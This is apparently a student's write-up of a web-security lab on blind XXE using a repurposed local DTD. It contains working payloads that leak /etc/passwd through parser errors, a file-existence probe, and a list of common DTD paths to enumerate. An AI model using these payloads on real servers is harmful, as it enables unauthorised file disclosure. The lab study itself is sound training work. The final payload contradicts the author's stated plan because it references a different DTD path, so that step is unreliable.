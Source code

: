 ```yaml
---
tags: ["blind", "XXE", "DTD"]
image: https://cdn.acunetix.com/wp-content/uploads/2017/07/11110651/XXE_600x315.png
---
```


## Exploiting blind XXE by repurposing a local DTD

The preceding technique works fine with an external DTD, but it won't normally work with an internal DTD that is fully specified within the `DOCTYPE` element. This is because the technique involves using an XML parameter entity within the definition of another parameter entity. Per the XML specification, this is permitted in external DTDs but not in internal DTDs. (Some parsers might tolerate it, but many do not.)

So what about blind XXE vulnerabilities when out-of-band interactions are blocked? You can't exfiltrate data via an out-of-band connection, and you can't load an external DTD from a remote server.

In this situation, it might still be possible to trigger error messages containing sensitive data, due to a loophole in the XML language specification. If a document's DTD uses a hybrid of internal and external DTD declarations, then the internal DTD can redefine entities that are declared in the external DTD. When this happens, the restriction on using an XML parameter entity within the definition of another parameter entity is relaxed.

This means that an attacker can employ the [error-based XXE](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages) technique from within an internal DTD, provided the XML parameter entity that they use is redefining an entity that is declared within an external DTD. Of course, if out-of-band connections are blocked, then the external DTD cannot be loaded from a remote location. Instead, it needs to be an external DTD file that is local to the application server. Essentially, the attack involves invoking a DTD file that happens to exist on the local filesystem and repurposing it to redefine an existing entity in a way that triggers a parsing error containing sensitive data. This technique was pioneered by Arseniy Sharoglazov, and ranked #7 in our [top 10 web hacking techniques of 2018](https://portswigger.net/blog/top-10-web-hacking-techniques-of-2018#7).

For example, suppose there is a DTD file on the server filesystem at the location `/usr/local/app/schema.dtd`, and this DTD file defines an entity called `custom_entity`. An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file by submitting a hybrid DTD like the following:

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> <!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '>
%local_dtd;
]>
```

> Reference for `&#x25;`,`&#x26;` and `&#x27;` : [here](https://www.howtocreate.co.uk/sidehtmlentity.html)

This DTD carries out the following steps:

- Defines an XML parameter entity called `local_dtd`, containing the contents of the external DTD file that exists on the server filesystem.
- Redefines the XML parameter entity called `custom_entity`, which is already defined in the external DTD file. The entity is redefined as containing the [error-based XXE exploit](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages) that was already described, for triggering an error message containing the contents of the `/etc/passwd` file.
- Uses the `local_dtd` entity, so that the external DTD is interpreted, including the redefined value of the `custom_entity` entity. This results in the desired error message.

## Locating an existing DTD file to repurpose

Since this XXE attack involves repurposing an existing DTD on the server filesystem, a key requirement is to locate a suitable file. This is actually quite straightforward. Because the application returns any error messages thrown by the XML parser, you can easily enumerate local DTD files just by attempting to load them from within the internal DTD.

For example, Linux systems using the GNOME desktop environment often have a DTD file at `/usr/share/yelp/dtd/docbookx.dtd`. You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing:

`<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; ]>`

After you have tested a list of common DTD files to locate a file that is present, you then need to obtain a copy of the file and review it to find an entity that you can redefine. Since many common systems that include DTD files are open source, you can normally quickly obtain a copy of files through internet search.

## Challenge

> This lab has a "Check stock" feature that parses XML input but does not display the result.
> To solve the lab, trigger an error message containing the contents of the `/etc/passwd` file.
> You'll need to reference an existing DTD file on the server and redefine an entity from it.

:::tip

Systems using the GNOME desktop environment often have a DTD at /usr/share/yelp/dtd/docbookx.dtd containing an entity called ISOamso.

:::

--> So here we have hint given that there is a dtd file at `/usr/share/yelp/dtd/docbookx.dtd` and also there is a entity called `ISOamso` but to cross check i used this payload to check if this file exist or not:

```
<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; ]>
```

--> And i haven't got any error so that means this file exists!

### But what if this file doesn't exists ?

So for that i found some common files for linux and other os.

==> For linux:

```markup
./properties/schemas/j2ee/XMLSchema.dtd
./../properties/schemas/j2ee/XMLSchema.dtd
./../../properties/schemas/j2ee/XMLSchema.dtd
/usr/share/java/jsp-api-2.2.jar!/javax/servlet/jsp/resources/jspxml.dtd
/usr/share/java/jsp-api-2.3.jar!/javax/servlet/jsp/resources/jspxml.dtd
/root/usr/share/doc/rh-python34-python-docutils-0.12/docs/ref/docutils.dtd
/root/usr/share/doc/rh-python35-python-docutils-0.12/docs/ref/docutils.dtd
/usr/share/doc/python2-docutils/docs/ref/docutils.dtd
/usr/share/yelp/dtd/docbookx.dtd
/usr/share/xml/fontconfig/fonts.dtd
/usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd
/usr/lib64/erlang/lib/docbuilder-0.9.8.11/dtd/application.dtd
/usr/share/boostbook/dtd/1.1/boostbook.dtd
/usr/share/boostbook/dtd/boostbook.dtd
/usr/share/dblatex/schema/dblatex-config.dtd
/usr/share/struts/struts-config_1_0.dtd
/opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd
```

==> For other OS:

https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/

--> But we know that we have to rewrite `ISOamso` enetiy as given in hint so i made this payload :

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> <!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '>
%local_dtd;
]>
```

And now right click on request and select `do intercept -> response to the request` and forward the request.

And boom! we got the content of `/etc/passwd`

![](Attachments/Pastedimage20220303124129.png)

And we solved the lab!
